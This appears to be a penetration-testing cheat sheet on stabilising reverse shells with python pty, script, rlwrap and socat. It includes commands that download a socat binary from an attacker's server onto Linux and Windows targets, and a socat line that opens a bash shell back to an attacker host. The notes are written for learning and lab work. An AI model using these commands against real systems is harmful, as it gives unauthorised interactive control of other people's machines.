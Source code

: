 # shell_upgrades

## this is what you came here for

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 37 cols 172
```
> follow this with `CTRL+Z` then   `stty raw -echo;fg` `ENTER ENTER`


## Technique 0: script
kind of like a poor version of python/rlwrap
stty does NOT behave nicely so it can cause display issues

> once your shell has landed; ONLY WORKS IF `script` is present on the target unix system
```
script /dev/null -c bash

explanation
    script      ; binary we run
    /dev/null   ; the log file location
    -c bash     ; the command we will be logging
```

my preference is to have a "fragile shell" but with rlwrap
the display issues script brings are NOT worth it
display issues cause too much lost information

my 'lost information' experience may be box/system specific to a single instance

> alternate 'script' upgrade
```sh
# catch the reverse shell
script -q bash
ctrl + Z 
stty raw -echo; fg 
export TERM=xterm
bash
# 2nd bash may not be needed
```


## Technique 1: python
    python -c 'import pty;pty.spawn("/bin/bash")' 
    export TERM=xterm -- this will give us access to term commands such as clear. 
    Ctrl + Z. (background the shell on attacker machine)
    stty raw -echo; fg 
    [LOCAL] stty -a  ; take note of row col
    [REV_SHELL] stty rows LOCAL_ROW columns LOCAL_COLS
    
Last 2 steps does two things: 
	first, it turns off our own terminal echo 
	(which gives us access to tab autocompletes, the arrow keys, and Ctrl + C). 
	It then foregrounds the shell, thus completing the process. 


## Technique 2: rlwrap
Useful for Windows Shell stabilization (Notoriously difficult)
Gives access to history, tab complete, arrow keys 
NO ACCESS TO CTRL+C BY DEFAULT

```sh
rlwrap nc -lvnp <port>
Ctrl+Z; stty raw -echo; fg  (gives access to ctrl+c)
```

## Technique 3: socat

only useful VS linux.
Syntax for Sending/Receiving is Unique to socat
serve a socat static compiled binary (no dependencies)

```cmd
Attacker: sudo python3 -m http.server 80    
Linux Target: wget <LOCAL-IP>/socat -O /tmp/socat
Windows Target: Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

Note the windows command is an example of serving; 
socat will not work for our purposes on windows

Listener: socat TCP-L:\<port\> FILE:`tty`,raw,echo=0
Speaker: socat TCP:\<attacker-ip\>:\<attacker-port\> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

-d -d  added to command will increase verbosity (good for learning)

Real world uses socat whenever possible; its possible to encrypt shell traffic
Replace above TCP with OPENSSL.
A bit involved, but worth learning NEXT.


## Change Terminal TTY Size

necessary for using progs which overwrite the screen (nano, vi, etc)
Terminal does this automatically with a regular shell;
must be manually done with a Reverse/Bind shell

-    Attacker: stty -a       (Take note of rows/cols information)
-    Target: stty rows    (info from attackbox)
-    Target: stty cols    (info from attackbox)


